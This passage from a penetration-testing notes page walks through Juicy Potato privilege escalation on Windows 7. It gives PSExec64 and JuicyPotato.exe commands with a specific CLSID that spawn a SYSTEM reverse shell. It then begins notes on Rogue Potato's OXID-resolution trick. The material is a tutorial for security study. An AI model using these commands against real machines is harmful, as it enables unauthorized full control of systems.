 And they found a lot of them: [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/)

**What are the advantages?**

* We do not need to have a meterpreter shell
* We can specify our COM server listen port
* We can specify with CLSID to abuse

{% hint style="warning" %}
These steps are for Windows 7, newer versions of windows 10 is not vulnerable
{% endhint %}

Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows and start a listener.

Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

```powershell
PSExec64.exe -i -u "ntauthority\local service" reverse.exe
```

Start another listener on Kali

Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:

```
PrivEsc\JuicyPotato.exe -l 1337 -p reverse.exe  -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

{% hint style="info" %}
If the CLSID ({03ca...) doesn’t work for you, either check this list:

[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

or run the GetCLSID.ps1 PowerShell script.
{% endhint %}

## <mark style="color:red;">Rogue Potato</mark> <a href="#rogue-potato" id="rogue-potato"></a>



After reading fixes regarding **Rotten/Juicy potato**, the following conclusions can be drawn:

* You cannot specify a custom port for OXID resolver address in latest Windows versions
* If you redirect the OXID resolution requests to a remote server on port 135 under your control and the forward the request to your local Fake RPC server, you will obtain only an ANONYMOUS LOGON.
* If you resolve the OXID Resolution request to a fake RPC Server, you will obtain an identification token during the _IRemUnkown2_ interface query.
